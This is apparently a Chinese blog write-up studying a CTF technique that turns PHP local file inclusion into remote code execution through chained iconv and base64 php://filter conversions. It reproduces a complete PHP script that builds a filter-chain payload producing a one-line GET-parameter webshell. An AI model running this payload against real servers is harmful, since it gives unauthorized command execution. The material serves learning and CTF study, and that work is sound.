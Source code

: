 # [PHP]无需可控文件的LFI-RCE学习

## 前言

昨天晚上P神的代码审计圈子里面提到了一个LFI的方法，题目来源是前段时间的HXPCTF中的题目`includer's revenge`。国外的一个师傅通过fuzz的方法通过iconv成功的将任意一个文件里的内容转换为一句话木马的方式，基本上可以说，PHP的LFI可能就到此为止了。

今天参考陆队的文章：https://tttang.com/archive/1395/，来学习一下思路和攻击方式。确实不得不说，nb。

这篇文章就只是大概记录一下学习的思路了，水一点因为我太懒了hhh，陆队的文章写的很详细了。



## 分析学习

之前在SESSION文件包含的时候就遇到过往SESSION里面写base64，前面凑齐4的整数倍的字符，然后接下来就是一句话的base64编码，再利用`php://filter/convert.base64-decode/resource=/tmp/sess_xxx`就可以直接rce，因为里面的base64解码后就可以得到完整的一句话。

再联想到，base64解码的时候会忽略除了base64中那64个字符的其他字符，只处理那64个字符，于是国外的那个师傅就开始尝试能不能通过iconv中不同字符集的转换来成功的得到base64中的字符，最后再来一层base64-decode即可rce。



比如`convert.iconv.UTF8.CSISO2022KR`，每次这样都会在字符串的首部产生`\x1b$)C`，可以发现这4个字符中只有字符C属于Base64中，再进行一次base64-decode再base64-encode之后，就只剩下字符C了：

```php
include "php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode/resource=data://,aaaaa"
```

同理，也可以得到更多的字符。作者最终利用的是：

```php
<?=`$_GET[0]`;;?>
PD89YCRfR0VUWzBdYDs7Pz4=
```

可能是因为非数字字母不太好找出（wupco师傅已经基本找出了所有的数字和字母）。



陆队文章中的脚本：

```php
<?php
$base64_payload = "PD89YCRfR0VUWzBdYDs7Pz4";
$conversions = array(
    'R' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.MAC.UCS2',
    'B' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.CP1256.UCS2',
    'C' => 'convert.iconv.UTF8.CSISO2022KR',
    '8' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2',
    '9' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.ISO6937.JOHAB',
    'f' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.SHIFTJISX0213',
    's' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L3.T.61',
    'z' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.NAPLPS',
    'U' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.CP1133.IBM932',
    'P' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.857.SHIFTJISX0213',
    'V' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.851.BIG5',
    '0' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.1046.UCS2',
    'Y' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UCS2',
    'W' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.851.UTF8|convert.iconv.L7.UCS2',
    'd' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UJIS|convert.iconv.852.UCS2',
    'D' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.SJIS.GBK|convert.iconv.L10.UCS2',
    '7' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.866.UCS2',
    '4' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.IEC_P271.UCS2'
);

$filters = "convert.base64-encode|";
# make sure to get rid of any equal signs in both the string we just generated and the rest of the file
$filters .= "convert.iconv.UTF8.UTF7|";

foreach (str_split(strrev($base64_payload)) as $c) {
    $filters .= $conversions[$c] . "|";
    $filters .= "convert.base64-decode|";
    $filters .= "convert.base64-encode|";
    $filters .= "convert.iconv.UTF8.UTF7|";
}
$filters .= "convert.base64-decode";

$final_payload = "php://filter/{$filters}/resource=data://,aaaaaaaaaaaaaaaaaaaa";
var_dump($final_payload);
```



至于需要把`$base64_payload`反转则是因为是从右边开始产生字符，然后在最左边通过`convert.iconv.UTF8.CSISO2022KR`来生成`\x1b$)C`然后进行利用，还不能影响后面已经产生的字符。

至于`convert.iconv.UTF8.UTF7`单纯的防止`=`的干扰。



个人觉得可能对于字符集有一定的要求，不同的环境似乎有的字符集不存在导致了POC打不通，或许更近一步fuzz的话可能能得到更为通用的字符集构造的POC。



复现：

![image-20220105161113679]([PHP]无需可控文件的LFI-RCE学习.assets/image-20220105161113679.png)

## 总结

陆队文章里的这句话戳到了我：

![image-20220105161203948]([PHP]无需可控文件的LFI-RCE学习.assets/image-20220105161203948.png)

这段时间一直在摆烂不想碰Java，其实想想还是得学学Java的，菜狗落泪呜呜。